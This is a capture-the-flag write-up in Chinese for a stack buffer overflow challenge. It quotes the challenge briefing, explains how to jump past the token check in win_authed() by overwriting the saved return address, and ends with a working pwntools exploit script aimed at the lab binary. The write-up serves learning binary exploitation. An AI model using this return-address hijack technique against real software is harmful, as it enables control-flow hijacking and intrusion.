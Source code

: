 # 挑战简介
```
我们的堆栈指针指向 0x7ffce9a5dd10，基指针指向 0x7ffce9a5ddb0。
这意味着我们的堆栈框架中有（十进制）22 个 8 字节字，
包括保存的基指针和保存的返回地址，
总共 176 个字节。
输入缓冲区从 0x7ffce9a5dd30 开始，位于堆栈框架的中途，
（堆栈中“上方”是函数使用的其他局部变量）。
您的输入将被读入此缓冲区。
缓冲区长度为 113 个字节，但程序会让您提供任意大的输入长度，从而溢出缓冲区。

在这个级别中，没有“win”变量。
您需要强制程序执行 win_authed() 函数，方法是直接溢出到存储的返回地址，返回到 main，该地址存储在 0x7ffce9a5ddb8，即输入缓冲区开始后的 136 个字节。
这意味着您需要输入至少 144 个字节（113 个用于填充缓冲区，23 个用于填充存储在缓冲区和返回地址之间的其他内容，8 个将覆盖返回地址）。
我们已针对此挑战禁用以下标准内存损坏缓解措施：
- 禁用 canary，否则您会在覆盖返回地址之前损坏它，程序将中止。
- 二进制文件*不是*位置无关的。这意味着每次运行时它都会位于同一位置，这意味着通过分析二进制文件（使用 objdump 或读取此输出），您可以知道覆盖返回地址所需的确切值。
您已选择发送 4096 个字节的输入！
这将允许您从 0x7ffce9a5dd30（输入缓冲区的起始位置）写入
直到（但不包括）0x7ffce9a5ed30（超出缓冲区末尾 3983 个字节）。
其中，您将覆盖 3960 个字节到返回地址。
如果该数字大于 8，您将覆盖整个返回地址。

此挑战的一个警告是 win_authed() 函数必须首先进行身份验证：
只有当您为其提供参数 0x1337 时，它才会让您获胜。
具体来说，win_authed() 函数看起来像：
void win_authed(int token)
{
if (token != 0x1337) return;
puts("您赢了！这是您的标志：");
sendfile(1, open("/flag", 0), 0, 256);
puts("");
}

那么你如何通过检查呢？有一种方法，我们稍后会介绍，但现在，我们只是绕过它！你可以用任何值覆盖返回地址（只要它指向可执行代码），而不仅仅是函数的开头。让我们在 win 中覆盖令牌检查！

为此，我们需要使用 objdump 分析程序，确定检查在 win_authed() 函数中的位置，找到检查后的地址，并将该地址写入保存的返回地址。

现在继续找到这个地址。准备好后，输入一个缓冲区溢出，它将用正确的值覆盖保存的返回地址（在 0x7ffce9a5ddb8，136 字节进入缓冲区）。

发送你的有效载荷（最多 4096 字节）！
```
# 思路
😔这题思路找错了，卡了两天，做的头脑火热...

我来说说这题意思吧

本题需注意:
- 没有win()函数，取而代之的是win_authed()函数
- win_authed()函数需要你输入参数0x1337来通过校验
- 但是你是栈溢出，所以你需要跳过栈检验，修改返回的函数地址，跳过需要检验的地址
- 你并不需要输入0x1337，只需要修改函数的返回地址

**以上**  
---
**以下**  
关于找出函数地址  
找到函数地址  
objdump -t binary_file | grep win_authed  

反汇编目标函数：  
objdump -d binary_file | less  


```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-control-hijack-2-w')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
win_authed_address = p64(0x401a37)    #此乃找到的，恰好跳过校验的地址
payload = b'a' * 136 + win_authed_address
p.send(payload)
p.recvall()
```
